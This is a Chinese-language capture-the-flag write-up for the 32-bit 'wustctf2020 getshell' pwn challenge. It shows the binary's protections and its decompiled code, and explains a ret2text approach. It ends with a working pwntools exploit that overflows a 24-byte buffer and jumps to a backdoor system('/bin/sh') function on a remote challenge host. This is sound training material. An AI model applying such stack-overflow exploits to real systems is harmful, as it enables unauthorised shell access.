 ```yaml
---
author: 
  name: Zephyr
title: wustctf2020 getshell
date: 2022-3-31 10:21:25
permalink: /pages/2e1547494524d1a1
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# wustctf2020 getshell

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/wustctf2020_getshell/wustctf2020_getshell'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  vulnerable();
  return 0;
}
```

vulnerable函数如下

```c
ssize_t vulnerable()
{
  char buf[24]; // [esp+0h] [ebp-18h] BYREF

  return read(0, buf, 0x20u);
}
```

shell函数如下

```c
int shell()
{
  return system("/bin/sh");
}
```



## 思路分析

1. 目前信息：
   
   - `vulnerable`函数存在溢出点
   - 有后门函数`shell`
   - No canary found
   - NX enabled
   - No PIE (0x8048000)
2. 思路：
   - 32位`ret2text`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/wustctf2020_getshell/wustctf2020_getshell'
io = remote('node4.buuoj.cn', 27378)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x18+4
back_door = elf.symbols['shell']
payload=flat(['a'*padding,back_door])
io.recv()
io.send(payload)
io.interactive()
```